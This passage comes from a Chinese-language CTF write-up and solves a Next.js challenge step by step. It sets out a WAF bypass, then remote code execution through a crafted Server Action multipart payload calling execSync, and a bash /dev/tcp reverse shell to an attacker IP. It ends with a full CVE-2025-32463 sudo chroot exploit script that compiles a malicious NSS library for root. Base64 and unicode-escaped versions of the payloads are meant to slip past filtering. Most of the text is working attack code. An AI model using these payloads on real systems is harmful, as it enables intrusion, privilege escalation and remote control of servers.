0067006500740022003A0020002200240031003A0063006F006E007300740072007500630074006F0072003A0063006F006E007300740072007500630074006F00720022000A0020002000200020007D000A00200020007D000A007D00)}}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

(记得过JavaScript质询)

效果如下

<!-- 这是一张图片，ocr 内容为：(P://NCL.CTFPKUSCN256 印 圆洋临 控制台 口查看的 0:内存 EXECUTE XSS SPLIT LFI SSTI LOAD HTTP://NC1.CTFPLUS.CN:25656/ ENTRYPOINT, SH LIB 11B64 NC1.CTFPLUS.CN:25656 ROOT. 15 USER-AGENT X TEXT/HTML,APPLICATION/XHTML+XML,AP 1,APP11 ZH-CN,ZH;Q-0.9,ZH-TW;Q-0.8,2H-HK;Q-8. X GZIP, DEFLATE ACCEPT-ENCODING KEEP-ALIVE WAF_NUM_TOKENL-181; WAF_NUM_TOKEN2:10 COOKIE VALUC X UPGRADE-INSECURE-REGUESTS SS XHR 城 章 X 信心专业 UND.ONAL -->


然后因为平台限制,没法以额外参数启动容器,原来还打算切断容器内除80端口以外的任何出入站连接,以及设置

WAF守护进程,防止WAF被kill,一旦WAF被kill就切断整个容器的全部网络连接.

但是这些没有设置,就又多了几类解, 

**第一种**,(虽然出网工具被移除了)但是可以构造特殊payload使**next.js应用**

对容器外服务器制造请求,可以指定请求内容中带flag内容(制造回显了就)

**第二种,反弹shell,(也是比较推荐的解法)**

我们先在攻击机执行

```bash
nc -lvvp 11111
```

然后,记住攻击机的公网IP 在被攻击机上执行

```bash
bash -i >& /dev/tcp/<攻击机的公网IP>/11111 0>&1 
```

这样就可以反弹shell

我们再结合这道题目,

构造payload

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/<攻击机的公网IP>/11111 0>&1 ').toString('utf8').trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

(注意替换攻击机的公网ip)

然后再按照前面任意方法来编码绕过来连上靶机.

**第三种**,自行执行代码来出网并发起请求

因为题目的gcc和python都还在的,所以理论上可以手搓...

## **3.提权**
本次题目的flag在/flag文件里面,且**仅root可读**

就需要使用CVE-2025-32463来提权来读取flag

CVE-2025-32463的常见payload如下

```bash
#!/bin/bash
# CVE-2025-32463 Sudo 提权漏洞利用
# 作者: mio
# 描述: 利用 Sudo 根目录切换(chroot)处理中的漏洞加载任意共享库，
#      获取 root 权限读取 flag。

# 1. 设置临时工作目录
# 在 /tmp 中创建一个随机目录，以保持文件系统整洁并避免冲突。
STAGE=$(mktemp -d /tmp/mio_exploit.XXXXXX)

# 进入暂存目录。如果失败，立即退出。
cd "${STAGE?}" || exit 1

# 2. 创建恶意 C 源代码
# 这段代码定义了一个构造函数，当库被加载时会自动运行。
# 它将用户 ID 设置为 0 (root) 并执行命令读取 flag。
cat > mio.c<<EOF
#include <stdlib.h>
#include <unistd.h>

// constructor 属性确保此函数在库被动态链接器加载后立即运行，
// 在主程序继续执行之前。
__attribute__((constructor)) void mio_init(void) {
    // 提升权限至 root (UID 0)
    setreuid(0,0);
    setregid(0,0);

    // 切换目录到根目录，确保我们可以相对于真实根路径找到 /flag
    chdir("/");

    // 执行有效载荷：读取 /flag 并进行 base64 编码（不换行）
    // 我们使用 /bin/sh 来处理管道符 (|)。
    execl("/bin/sh", "sh", "-c", "cat /flag | base64 -w0", NULL);
}
EOF

# 3. 为 chroot 攻击准备目录结构
# 'mio_root/etc' 将存放我们的恶意配置。
# 'libnss_' 将存放我们的恶意库。下划线也是目录名的一部分，
# sudo 在解析库路径时会用到它。
mkdir -p mio_root/etc libnss_

# 4. 创建恶意 nsswitch.conf
# 该文件告诉系统如何解析用户信息 (passwd)。
# 通过设置 'passwd: /mio'，我们欺骗 glibc 加载 'libnss_/mio.so.2'。
# 路径 '/mio' 是相对于 chroot 的，但由于该漏洞，
# 库加载是在完整的路径上下文中进行的。
echo "passwd: /mio" > mio_root/etc/nsswitch.conf

# 复制系统 group 文件以满足基本的系统查找需求（可选，但推荐用于保持稳定性）
cp /etc/group mio_root/etc

# 5. 编译恶意共享库
# -shared: 创建共享库。
# -fPIC: 生成位置无关代码。
# -Wl,-init,mio_init: 明确告诉链接器在加载时运行 'mio_init'。
# -o libnss_/mio.so.2: 输出文件名必须与 glibc 基于 nsswitch.conf 预期的名称匹配。
# 我们将标准输出和标准错误重定向到 /dev/null 以保持输出整洁。
gcc -shared -fPIC -Wl,-init,mio_init -o libnss_/mio.so.2 mio.c >/dev/null 2>&1

# 6. 触发漏洞
# 我们使用 '-R' (chroot) 选项运行 'sudo'，指向我们的 'mio_root' 目录。
# Sudo 会在降权*之前*读取我们的恶意 nsswitch.conf 并加载我们的库。
# 'ls' 命令只是一个占位符；我们的库会在 'ls' 运行之前接管执行。
# 我们将标准错误重定向到 /dev/null，因此只有 base64 编码的 flag 会出现在标准输出中。
sudo -R mio_root ls 2>/dev/null

# 7. 清理
# 删除临时目录和所有创建的文件。
rm -rf "${STAGE?}"

# 正常退出
exit 0

```

编译的恶意共享库的 execl();的内容是可以自定义的,例如我们写成

```c
execl("/bin/bash", "/bin/bash", NULL);
```

就可以直接产生一个交互式的root shell

**这里,如果是通过反弹shell来做的,可以直接使用root shell来 cat /flag了**

**或者如果已经通过内存马获取了shell就可以直接执行本章期望靶机运行的命令然后直接读取flag了.**

我们可以把代码换成

```c
execl("/bin/sh", "sh", "-c", "cat /flag > /tmp/flag ", NULL);
```

这样就用root身份把/flag的内容写入到了/tmp/flag

这样node用户就可以读取了

需要执行的代码

```bash
STAGE=$(mktemp -d /tmp/mio_exploit.XXXXXX)
cd "${STAGE?}" || exit 1
cat > mio.c<<EOF
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void mio_init(void) {
    setreuid(0,0);
    setregid(0,0);
    chdir("/");
    execl("/bin/sh", "sh", "-c", "cat /flag > /tmp/flag ", NULL);
}
EOF
mkdir -p mio_root/etc libnss_
echo "passwd: /mio" > mio_root/etc/nsswitch.conf
gcc -shared -fPIC -Wl,-init,mio_init -o libnss_/mio.so.2 mio.c >/dev/null 2>&1
sudo -R mio_root ls 
```

然后再将其base64处理一遍

```plain
U1RBR0U9JChta3RlbXAgLWQgL3RtcC9taW9fZXhwbG9pdC5YWFhYWFgpCmNkICIke1NUQUdFP30iIHx8IGV4aXQgMQpjYXQgPiBtaW8uYzw8RU9GCiNpbmNsdWRlIDxzdGRsaWIuaD4KI2luY2x1ZGUgPHVuaXN0ZC5oPgpfX2F0dHJpYnV0ZV9fKChjb25zdHJ1Y3RvcikpIHZvaWQgbWlvX2luaXQodm9pZCkgewogICAgc2V0cmV1aWQoMCwwKTsKICAgIHNldHJlZ2lkKDAsMCk7CiAgICBjaGRpcigiLyIpOwogICAgZXhlY2woIi9iaW4vc2giLCAic2giLCAiLWMiLCAiY2F0IC9mbGFnID4gL3RtcC9mbGFnICIsIE5VTEwpOwp9CkVPRgpta2RpciAtcCBtaW9fcm9vdC9ldGMgbGlibnNzXwplY2hvICJwYXNzd2Q6IC9taW8iID4gbWlvX3Jvb3QvZXRjL25zc3dpdGNoLmNvbmYKZ2NjIC1zaGFyZWQgLWZQSUMgLVdsLC1pbml0LG1pb19pbml0IC1vIGxpYm5zc18vbWlvLnNvLjIgbWlvLmMgPi9kZXYvbnVsbCAyPiYxCnN1ZG8gLVIgbWlvX3Jvb3QgbHMg
```

然后再写成

```plain
echo <目标命令的base64后的结果> | base64 -d | sh
```

这种格式,防止出错

最终要使靶机执行

```bash
echo U1RBR0U9JChta3RlbXAgLWQgL3RtcC9taW9fZXhwbG9pdC5YWFhYWFgpCmNkICIke1NUQUdFP30iIHx8IGV4aXQgMQpjYXQgPiBtaW8uYzw8RU9GCiNpbmNsdWRlIDxzdGRsaWIuaD4KI2luY2x1ZGUgPHVuaXN0ZC5oPgpfX2F0dHJpYnV0ZV9fKChjb25zdHJ1Y3RvcikpIHZvaWQgbWlvX2luaXQodm9pZCkgewogICAgc2V0cmV1aWQoMCwwKTsKICAgIHNldHJlZ2lkKDAsMCk7CiAgICBjaGRpcigiLyIpOwogICAgZXhlY2woIi9iaW4vc2giLCAic2giLCAiLWMiLCAiY2F0IC9mbGFnID4gL3RtcC9mbGFnICIsIE5VTEwpOwp9CkVPRgpta2RpciAtcCBtaW9fcm9vdC9ldGMgbGlibnNzXwplY2hvICJwYXNzd2Q6IC9taW8iID4gbWlvX3Jvb3QvZXRjL25zc3dpdGNoLmNvbmYKZ2NjIC1zaGFyZWQgLWZQSUMgLVdsLC1pbml0LG1pb19pbml0IC1vIGxpYm5zc18vbWlvLnNvLjIgbWlvLmMgPi9kZXYvbnVsbCAyPiYxCnN1ZG8gLVIgbWlvX3Jvb3QgbHMg | base64 -d | sh
```

再结合CVE-2025-66478,以及之前的WAF绕过,来RCE

构造payload


```http
POST / HTTP/1.1
Host: 80-da027d81-4d20-490f-967d-0ba1a78ea2fd.challenge.ctfplus.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Cookie: waf_num_token1=1109; waf_num_token2=10181
Content-Length: 1

------mioqwq
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('echo U1RBR0U9JChta3RlbXAgLWQgL3RtcC9taW9fZXhwbG9pdC5YWFhYWFgpCmNkICIke1NUQUdFP30iIHx8IGV4aXQgMQpjYXQgPiBtaW8uYzw8RU9GCiNpbmNsdWRlIDxzdGRsaWIuaD4KI2luY2x1ZGUgPHVuaXN0ZC5oPgpfX2F0dHJpYnV0ZV9fKChjb25zdHJ1Y3RvcikpIHZvaWQgbWlvX2luaXQodm9pZCkgewogICAgc2V0cmV1aWQoMCwwKTsKICAgIHNldHJlZ2lkKDAsMCk7CiAgICBjaGRpcigiLyIpOwogICAgZXhlY2woIi9iaW4vc2giLCAic2giLCAiLWMiLCAiY2F0IC9mbGFnID4gL3RtcC9mbGFnICIsIE5VTEwpOwp9CkVPRgpta2RpciAtcCBtaW9fcm9vdC9ldGMgbGlibnNzXwplY2hvICJwYXNzd2Q6IC9taW8iID4gbWlvX3Jvb3QvZXRjL25zc3dpdGNoLmNvbmYKZ2NjIC1zaGFyZWQgLWZQSUMgLVdsLC1pbml0LG1pb19pbml0IC1vIGxpYm5zc18vbWlvLnNvLjIgbWlvLmMgPi9kZXYvbnVsbCAyPiYxCnN1ZG8gLVIgbWlvX3Jvb3QgbHMg | base64 -d | sh').toString('utf8').trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--
```

第一次编码

```http
POST / HTTP/1.1
Host: 80-da027d81-4d20-490f-967d-0ba1a78ea2fd.challenge.ctfplus.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Cookie: waf_num_token1=1109; waf_num_token2=10181
Content-Length: 1

------mioqwq
Content-Disposition: form-data; name="0"

{
  "\u0074\u0068\u0065\u006e": "\u0024\u0031\u003a\u005f\u005f\u0070\u0072\u006f\u0074\u006f\u005f\u005f\u003a\u0074\u0068\u0065\u006e",
  "\u0073\u0074\u0061\u0074\u0075\u0073": "\u0072\u0065\u0073\u006f\u006c\u0076\u0065\u0064\u005f\u006d\u006f\u0064\u0065\u006c",
  "\u0072\u0065\u0061\u0073\u006f\u006e": -1,
  "\u0076\u0061\u006c\u0075\u0065": "{\"\u0074\u0068\u0065\u006e\":\"\u0024\u0042\u0031\"}",
  "\u005f\u0072\u0065\u0073\u0070\u006f\u006e\u0073\u0065": {
    "\u005f\u0070\u0072\u0065\u0066\u0069\u0078": "\u0076\u0061\u0072\u0020\u0072\u0065\u0073\u003d\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u002e\u006d\u0061\u0069\u006e\u004d\u006f\u0064\u0075\u006c\u0065\u002e\u0072\u0065\u0071\u0075\u0069\u0072\u0065\u0028\u0027\u0063\u0068\u0069\u006c\u0064\u005f\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0027\u0029\u002e\u0065\u0078\u0065\u0063\u0053\u0079\u006e\u0063\u0028\u0027\u0065\u0063\u0068\u006f\u0020\u0055\u0031\u0052\u0042\u0052\u0030\u0055\u0039\u004a\u0043\u0068\u0074\u0061\u0033\u0052\u006c\u0062\u0058\u0041\u0067\u004c\u0057\u0051\u0067\u004c\u0033\u0052\u0074\u0063\u0043\u0039\u0074\u0061\u0057\u0039\u0066\u005a\u0058\u0068\u0077\u0062\u0047\u0039\u0070\u0064\u0043\u0035\u0059\u0057\u0046\u0068\u0059\u0057\u0046\u0067\u0070\u0043\u006d\u004e\u006b\u0049\u0043\u0049\u006b\u0065\u0031\u004e\u0055\u0051\u0055\u0064\u0046\u0050\u0033\u0030\u0069\u0049\u0048\u0078\u0038\u0049\u0047\u0056\u0034\u0061\u0058\u0051\u0067\u004d\u0051\u0070\u006a\u0059\u0058\u0051\u0067\u0050\u0069\u0042\u0074\u0061\u0057\u0038\u0075\u0059\u007a\u0077\u0038\u0052\u0055\u0039\u0047\u0043\u0069\u004e\u0070\u0062\u006d\u004e\u0073\u0064\u0057\u0052\u006c\u0049\u0044\u0078\u007a\u0064\u0047\u0052\u0073\u0061\u0057\u0049\u0075\u0061\u0044\u0034\u004b\u0049\u0032\u006c\u0075\u0059\u0032\u0078\u0031\u005a\u0047\u0055\u0067\u0050\u0048\u0056\u0075\u0061\u0058\u004e\u0030\u005a\u0043\u0035\u006f\u0050\u0067\u0070\u0066\u0058\u0032\u0046\u0030\u0064\u0048\u004a\u0070\u0059\u006e\u0056\u0030\u005a\u0056\u0039\u0066\u004b\u0043\u0068\u006a\u0062\u0032\u0035\u007a\u0064\u0048\u004a\u0031\u0059\u0033\u0052\u0076\u0063\u0069\u006b\u0070\u0049\u0048\u005a\u0076\u0061\u0057\u0051\u0067\u0062\u0057\u006c\u0076\u0058\u0032\u006c\u0075\u0061\u0058\u0051\u006f\u0064\u006d\u0039\u0070\u005a\u0043\u006b\u0067\u0065\u0077\u006f\u0067\u0049\u0043\u0041\u0067\u0063\u0032\u0056\u0030\u0063\u006d\u0056\u0031\u0061\u0057\u0051\u006f\u004d\u0043\u0077\u0077\u004b\u0054\u0073\u004b\u0049\u0043\u0041\u0067\u0049\u0048\u004e\u006c\u0064\u0048\u004a\u006c\u005a\u0032\u006c\u006b\u004b\u0044\u0041\u0073\u004d\u0043\u006b\u0037\u0043\u0069\u0041\u0067\u0049\u0043\u0042\u006a\u0061\u0047\u0052\u0070\u0063\u0069\u0067\u0069\u004c\u0079\u0049\u0070\u004f\u0077\u006f\u0067\u0049\u0043\u0041\u0067\u005a\u0058\u0068\u006c\u0059\u0032\u0077\u006f\u0049\u0069\u0039\u0069\u0061\u0057\u0034\u0076\u0063\u0032\u0067\u0069\u004c\u0043\u0041\u0069\u0063\u0032\u0067\u0069\u004c\u0043\u0041\u0069\u004c\u0057\u004d\u0069\u004c\u0043\u0041\u0069\u0059\u0032\u0046\u0030\u0049\u0043\u0039\u006d\u0062\u0047\u0046\u006e\u0049\u0044\u0034\u0067\u004c\u0033\u0052\u0074\u0063\u0043\u0039\u006d\u0062\u0047\u0046\u006e\u0049\u0043\u0049\u0073\u0049\u0045\u0035\u0056\u0054\u0045\u0077\u0070\u004f\u0077\u0070\u0039\u0043\u006b\u0056\u0050\u0052\u0067\u0070\u0074\u0061\u0032\u0052\u0070\u0063\u0069\u0041\u0074\u0063\u0043\u0042\u0074\u0061\u0057\u0039\u0066\u0063\u006d\u0039\u0076\u0064\u0043\u0039\u006c\u0064\u0047\u004d\u0067\u0062\u0047\u006c\u0069\u0062\u006e\u004e\u007a\u0058\u0077\u0070\u006c\u0059\u0032\u0068\u0076\u0049\u0043\u004a\u0077\u0059\u0058\u004e\u007a\u0064\u0032\u0051\u0036\u0049\u0043\u0039\u0074\u0061\u0057\u0038\u0069\u0049\u0044\u0034\u0067\u0062\u0057\u006c\u0076\u0058\u0033\u004a\u0076\u0062\u0033\u0051\u0076\u005a\u0058\u0052\u006a\u004c\u0032\u0035\u007a\u0063\u0033\u0064\u0070\u0064\u0047\u004e\u006f\u004c\u006d\u004e\u0076\u0062\u006d\u0059\u004b\u005a\u0032\u004e\u006a\u0049\u0043\u0031\u007a\u0061\u0047\u0046\u0079\u005a\u0057\u0051\u0067\u004c\u0057\u005a\u0051\u0053\u0055\u004d\u0067\u004c\u0056\u0064\u0073\u004c\u0043\u0031\u0070\u0062\u006d\u006c\u0030\u004c\u0047\u0031\u0070\u0062\u0031\u0039\u0070\u0062\u006d\u006c\u0030\u0049\u0043\u0031\u0076\u0049\u0047\u0078\u0070\u0059\u006d\u0035\u007a\u0063\u0031\u0038\u0076\u0062\u0057\u006c\u0076\u004c\u006e\u004e\u0076\u004c\u006a\u0049\u0067\u0062\u0057\u006c\u0076\u004c\u006d\u004d\u0067\u0050\u0069\u0039\u006b\u005a\u0058\u0059\u0076\u0062\u006e\u0056\u0073\u0062\u0043\u0041\u0079\u0050\u0069\u0059\u0078\u0043\u006e\u004e\u0031\u005a\u0047\u0038\u0067\u004c\u0056\u0049\u0067\u0062\u0057\u006c\u0076\u0058\u0033\u004a\u0076\u0062\u0033\u0051\u0067\u0062\u0048\u004d\u0067\u0020\u007c\u0020\u0062\u0061\u0073\u0065\u0036\u0034\u0020\u002d\u0064\u0020\u007c\u0020\u0073\u0068\u0027\u0029\u002e\u0074\u006f\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0027\u0075\u0074\u0066\u0038\u0027\u0029\u002e\u0074\u0072\u0069\u006d\u0028\u0029\u003b\u003b\u0074\u0068\u0072\u006f\u0077\u0020\u004f\u0062\u006a\u0065\u0063\u0074\u002e\u0061\u0073\u0073\u0069\u0067\u006e\u0028\u006e\u0065\u0077\u0020\u0045\u0072\u0072\u006f\u0072\u0028\u0027\u004e\u0045\u0058\u0054\u005f\u0052\u0045\u0044\u0049\u0052\u0045\u0043\u0054\u0027\u0029\u002c\u007b\u0064\u0069\u0067\u0065\u0073\u0074\u003a\u0020\u0060\u004e\u0045\u0058\u0054\u005f\u0052\u0045\u0044\u0049\u0052\u0045\u0043\u0054\u003b\u0070\u0075\u0073\u0068\u003b\u002f\u006c\u006f\u0067\u0069\u006e\u003f\u0061\u003d\u0024\u007b\u0072\u0065\u0073\u007d\u003b\u0033\u0030\u0037\u003b\u0060\u007d\u0029\u003b",
    "\u005f\u0063\u0068\u0075\u006e\u006b\u0073": "\u0024\u0051\u0032",
    "\u005f\u0066\u006f\u0072\u006d\u0044\u0061\u0074\u0061": {
      "get": "\u0024\u0031\u003a\u0063\u006f\u006e\u0073\u0074\u0072\u0075\u0063\u0074\u006f\u0072\u003a\u0063\u006f\u006e\u0073\u0074\u0072\u0075\u0063\u0074\u006f\u0072"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--
```

第二次编码(提权部分的最终payload)

```http
POST / HTTP/1.1
Host: 80-da027d81-4d20-490f-967d-0ba1a78ea2fd.challenge.ctfplus.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Cookie: waf_num_token1=1109; waf_num_token2=10181
Content-Length: 1

------mioqwq
Content-Disposition: form-data; name="0"

\u007b\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u0022\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0063\u0022\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u0022\u003a\u0020\u002d\u0031\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0035\u0022\u003a\u0020\u0022\u007b\u005c\u0022\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0022\u003a\u005c\u0022\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0034\u0032\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0022\u007d\u0022\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u0022\u003a\u0020\u007b\u000a\u0020\u0020\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0038\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0031\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0035\u0033\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0034\u0032\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0033